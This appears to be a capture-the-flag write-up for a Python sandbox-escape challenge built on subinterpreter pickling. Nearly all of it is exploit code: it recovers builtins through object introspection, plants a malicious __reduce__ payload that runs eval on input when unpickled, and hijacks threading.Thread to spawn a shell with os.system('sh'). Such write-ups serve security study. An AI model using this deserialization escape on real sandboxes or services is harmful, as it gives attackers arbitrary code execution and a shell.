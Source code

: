 # Solution

As per <https://docs.python.org/3.14/library/concurrent.interpreters.html#interp-object-sharing>
> By default, most objects are copied with `pickle` when they are passed to another interpreter.

Solution
```
# Return an object with a __reduce__ method, classic pickle unserialize
(b:=().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__, b['globals']().update({'__builtins__': b}), b['exec']("class PAYLOAD():\n def __reduce__(self):\n  command=\"eval(input('PAYLOAD 2:'))\"\n  return (eval, (command,))"), x:=[], x.append(y.gi_frame.f_back.f_back.f_locals for y in x), z:=[*x[0]], z[0].update({"success":PAYLOAD()}))

# This will run when the `success` variable is un-pickled, in the main interpreter
(exec("threading.Thread = lambda **_:__import__('os').system('sh')"), True)[1]
```